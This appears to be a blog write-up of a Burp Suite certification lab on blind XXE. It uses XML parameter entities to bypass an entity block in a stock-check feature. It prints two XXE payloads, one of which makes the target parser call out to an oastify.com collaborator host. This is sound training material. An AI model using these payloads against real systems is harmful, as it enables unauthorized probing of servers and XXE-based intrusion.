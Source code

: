 ```yaml
---
layout: post
title:  "Blind XXE with out-of-band interaction via XML parameter entities"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## Solution 

This lab also includes the XXE in check stock functionality but when I use regular entity based payload meaning I used the same payload of the previous lab 

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Observing the response where it says `"Entities are not allowed for security reasons"` there is some kind of block out there 

![]({{ site.baseurl }}/assets/images/xxe/xxe-18.png)

But when we replace the `&xxe` entity with the actual `productId` which is `1` will reveal the stock count of the product but no external pingback to the collaborator 

![]({{ site.baseurl }}/assets/images/xxe/xxe-19.png)

Now in order to bypass we can use xml entity parameter, where we can able to reference it with in the DTD.. Firstly it's referenced in percent character before the entity name and referenced else where inside the DTD with `%xxe;` instead of `&xxe;`

Just combining all together with the following payload 

```xml
<!DOCTYPE stockCheck [ <!ENTITY % xxe SYSTEM "http://bxcluruc7sgb3cwctx3lj8v9c0is6ju8.oastify.com"> %xxe; ]> 
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Sent the request with the above payload as `POST` body and shows the `XML error` in the response.. But, checking the collaborator we got the pingbacks from the server 

![]({{ site.baseurl }}/assets/images/xxe/xxe-20.png)

Since we managed to recieve the pingbacks... our objective is achieved and that solves the lab 

![]({{ site.baseurl }}/assets/images/xxe/xxe-21.png)